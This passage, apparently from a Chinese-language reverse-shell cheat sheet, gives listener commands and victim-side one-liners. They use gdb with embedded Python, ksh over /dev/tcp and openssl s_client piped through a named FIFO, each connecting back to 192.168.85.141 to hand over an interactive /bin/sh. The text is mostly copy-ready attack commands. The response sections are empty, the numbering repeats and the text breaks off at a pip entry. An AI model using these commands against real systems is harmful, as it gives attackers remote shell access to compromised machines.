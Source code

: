 ##### 11.Gdb反弹

UNIX及UNIX-like下的调试工具。

攻击机：

socat file:`tty`,raw,echo=0 tcp-listen:12345

受害机：

export RHOST=192.168.85.141 export RPORT=12345 gdb -nx -ex ‘python
import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv(“RHOST”),int(os.getenv(“RPORT”))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")’ -ex
quit



获得响应：

##### 11.Ksh反弹

ksh 命令调用 Korn shell，这个 shell 是一个交互式的命令解释器和命令编程语言。这个 shell 可交互式的从终端键盘或从一个文件中执行命令。

攻击机：

nc -l -p 12345

受害机：

export RHOST=192.168.85.141
export RPORT=12345
ksh -c ‘ksh -i >/dev/tcp/$RHOST/$RPORT 2>&1 0>&1’


获得响应：

##### 12.openssl 反弹

OpenSSL是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上。

攻击机：

openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days
365 -nodes openssl s_server -quiet -key key.pem -cert cert.pem -port 12345




受害机：

RHOST=192.168.85.141 RPORT=12345 mkfifo /tmp/s; /bin/sh -i < /tmp/s
2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s



获得响应：

##### 13.Pip反弹

攻击机：

socat file:`tty`,raw,echo=0 tcp-listen:12345 on the attacker box to receive the shell.
